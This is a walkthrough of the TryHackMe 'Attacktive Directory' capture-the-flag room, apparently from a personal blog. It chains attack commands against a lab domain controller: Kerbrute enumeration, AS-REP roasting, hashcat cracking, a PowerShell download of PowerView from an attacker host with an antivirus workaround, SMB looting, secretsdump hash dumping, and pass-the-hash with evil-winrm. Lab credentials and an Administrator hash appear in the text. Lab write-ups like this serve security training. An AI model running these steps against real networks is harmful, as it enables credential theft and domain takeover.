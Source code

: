 ```yaml
---
date: 2025-03-05
categories: [CTF, THM]
title: "THM - Attacktive Directory"
tags: ['hashcat', 'impacket', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb']

description: "Attacktive Directory - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Attacktive Directory

- NMAP

![image1](../resources/406f6695291c4749b73606d43103c777.png)

```bash
nmap -n -sV --script="ldap\* and not brute" 10.10.123.209

```

![image2](../resources/21a0bb4a8c6f4a85aae827c8b08b2bc6.png)


![image3](../resources/9492bebb8acc4b4ba0a00b63e7eb4863.png)

- Enumerate users with Kerbrute:
```bash
./kerbrute userenum --dc 10.10.123.209 -d spookysec.local userlist.txt -o validusers.txt

```
(Using the provided userlist to cut down on enumeration time)


![image4](../resources/6359efe477b946ac8545e0890e13b941.png)

- Cut fields:
```bash
cat validusers.txt | cut -d " " -f 8 > validusers_edited.txt

```

![image5](../resources/f5253e54d5314db4b0bfe97dda247c0b.png)

- ASRepRoasting:
```bash
impacket-GetNPUsers spookysec.local/ -users validusers_edited.txt -no-pass -dc-ip 10.10.123.209

```

![image6](../resources/d3be60a69983476c9760e5c8d889d8ec.png)

- Copy hash to file (hash)

- Crack with hashcat:
```bash
hashcat -m 18200 --force -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image7](../resources/1ae9a47ff79b4940b6d6c3ca4499140a.png)

Got credentials: **svc-admin : management2005**

- RDP:
```bash
xfreerdp /v:10.10.123.209 /u:svc-admin /p:management2005 /dynamic-resolution /cert:ignore

```

![image8](../resources/5dc5c24db85646779d67504c1dcee02b.png)

- Enumeration:
```bash
query user

```

![image9](../resources/31fd3fe9bc5a4b87918a76b586d7c82e.png)

Only us logged in

- Upload PowerView.ps1:
```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\svc-admin\PowerView.ps1')

```

![image10](../resources/7e283975acf14b2baa546b84c5a43bb1.png)

**<u>AV Workaround for PowerView:</u>**
```bash
sed '/\<#/,/#\>/d' PowerView.ps1 > new_powerview.ps1

```

![image11](../resources/8f4a6f3f7f224933b636c0945ab94248.png)

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/new_powerview.ps1 ', 'C:\Users\svc-admin\new_powerview.ps1 ')

```

![image12](../resources/7c9c5805aca0431eaab9663b5f7a3834.png)

Loaded the updated script but still doesn't run

Moving on...

- With credentials - Run enum4linux again:

![image13](../resources/f0728b3d070c4777a2a719ecf0f26c13.png)

- We have a share /backup  
  Connect with:
```bash
smbclient //10.10.173.147/backup -U thm-ad/svc-admin%management2005

```

![image14](../resources/57ca31fa34ed4160afde9990a2c2f62f.png)


![image15](../resources/40e4302c66704969984b3bde4749c0e8.png)


![image16](../resources/6d7eb32d586949d0be9170b55476f895.png)

- Looks like base64:

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

```

![image17](../resources/9bba6007407a44c092521ae3afe1d9c7.png)

- We can see that there is a domain user called backup - and we have the creds:
**backup@spookysec.local:backup2517860**

- There is a clue in the THM Task description:

![image18](../resources/46edce029af74d30b3d70291f8247b03.png)

- To dump hashes use:
```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.10.173.147 -dc-ip 10.10.173.147

```

![image19](../resources/701bb2f608b14e8da350129bb4ae6a0f.png)

- You can use the hash with evil-winrm to connect:
```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.173.147

```

![image20](../resources/bdbf6af48f124efdb9fad24dc703c072.png)


![image21](../resources/d2c6ad9920324007a48601c706585728.png)


![image22](../resources/e12d14a8e612485ba9f6176eae0e75b5.png)